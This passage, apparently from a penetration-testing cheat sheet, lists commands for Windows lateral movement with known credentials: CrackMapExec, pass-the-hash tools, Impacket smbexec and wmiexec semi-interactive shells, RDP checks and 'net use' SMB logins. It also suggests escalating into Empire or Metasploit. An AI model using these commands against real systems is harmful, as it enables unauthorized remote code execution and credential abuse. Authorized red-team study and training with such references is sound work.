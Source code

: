 ```cme smb $ip_or_range -d $domain -u $user -p $password```

```pth-rpcclient```

```pth-smbclient```  

```pth-smbget```  

```pth-sqsh```  

```pth-winexe```  

```pth-wmic```  

```pth-wmis```


#### --- smbexec --- ####

This one is a bit "stealthier" as it doesn't drop a binary on the target system.
Commands and output are asynchronous

```python smbexec.py $domain/$user:$password@ip_address```


#### --- wmiexec.py --- ####

Under the hood this one uses Windows Management Instrumentation (WMI) to launch a semi-interactive shell.

```python wmiexec.py $domain/$user:$password@ip_address```


#### --- CrackMapExec --- ####

You can also use CrackMapExec to execute commands on hosts by passing it the "-x" parameter.
Since it's built on Impacket's libraries, it's basically doing the exact same thing as wmiexec.py.
But let's you do it across a range of IPs

```python crackmapexec.py $ip_address -d $domain -u $user -p $pass -x $cmd```


#### --- Remote Desktop/rdp_check --- ####

```python rdp_check.py $domain/$user:$pass@$ip_address```

NOTE: Use these to get code execution and elevate into Empire/MSF


## <----- From Windows -----> ##

NOTE: *Tools mentioned previously (psexec, wmiexec, etc) are essentially re-implementations of core Windows functionality.*

#### Testing Credentials and Exploring the Domain ####

#### --- SMB Login --- ####

An easy way to test credentials is to try to initiate an SMB connection to the machine.
This is essentially what Metasploit's module does. 

NOTE: *$user and $pass are considered known values at this point*

```net use \\$target /user:$domain\$user $pass```

```net use z: \\$target\$VOL```
```